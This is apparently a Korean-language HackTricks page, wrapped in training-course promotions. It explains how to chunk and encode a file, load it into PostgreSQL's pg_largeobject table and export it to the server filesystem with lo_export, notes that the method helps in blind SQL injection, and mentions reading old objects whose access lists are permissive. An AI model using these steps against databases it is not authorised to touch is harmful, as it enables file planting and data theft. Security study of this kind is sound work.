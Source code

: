 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL 대용량 객체

PostgreSQL은 **대용량 객체**로 알려진 구조를 제공하며, 이는 `pg_largeobject` 테이블을 통해 접근할 수 있으며, 이미지나 PDF 문서와 같은 대형 데이터 유형을 저장하기 위해 설계되었습니다. 이 접근 방식은 **데이터를 파일 시스템으로 다시 내보내는** 기능을 제공하므로 `COPY TO` 함수보다 유리하며, 원본 파일의 정확한 복제본이 유지됩니다.

이 테이블 내에서 **전체 파일을 저장하기 위해** `pg_largeobject` 테이블에 객체를 생성해야 하며(LOID로 식별됨), 그 다음에 각 2KB 크기의 데이터 청크를 이 객체에 삽입해야 합니다. 이러한 청크는 내보내기 기능이 올바르게 작동하도록 하기 위해 정확히 2KB 크기여야 하며(마지막 청크는 예외일 수 있음) 중요합니다.

**이진 데이터를** 2KB 청크로 **나누기 위해** 다음 명령을 실행할 수 있습니다:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
각 파일을 Base64 또는 Hex로 인코딩하기 위해 아래의 명령어를 사용할 수 있습니다:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**중요**: 이 프로세스를 자동화할 때, 2KB의 일반 텍스트 바이트 청크를 전송해야 합니다. 헥스 인코딩된 파일은 크기가 두 배로 증가하기 때문에 청크당 4KB의 데이터가 필요하며, Base64 인코딩된 파일은 `ceil(n / 3) * 4` 공식을 따릅니다.

대용량 객체의 내용은 디버깅 목적으로 다음을 사용하여 볼 수 있습니다:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

이진 데이터를 저장하기 위해, 먼저 LOID가 생성됩니다:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
정확한 제어가 필요한 상황, 예를 들어 Blind SQL Injection을 악용할 때, `lo_create`는 고정 LOID를 지정하는 데 선호됩니다.

데이터 청크는 다음과 같이 삽입할 수 있습니다:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
대상 사용 후 대용량 객체를 내보내고 잠재적으로 삭제하려면:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Using `lo_import` & Hex

`lo_import` 함수를 사용하여 대용량 객체에 대한 LOID를 생성하고 지정할 수 있습니다:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
객체 생성 후, 각 페이지에 데이터가 삽입되며, 각 청크가 2KB를 초과하지 않도록 보장합니다:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
프로세스를 완료하기 위해 데이터가 내보내지고 대용량 객체가 삭제됩니다:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

**대용량 객체는 ACL(Access Control Lists)을 가질 수 있으며**, 이는 사용자가 생성한 객체에 대한 접근을 제한할 수 있습니다. 그러나 허용된 ACL을 가진 오래된 객체는 여전히 콘텐츠 유출을 위해 접근할 수 있을 수 있습니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
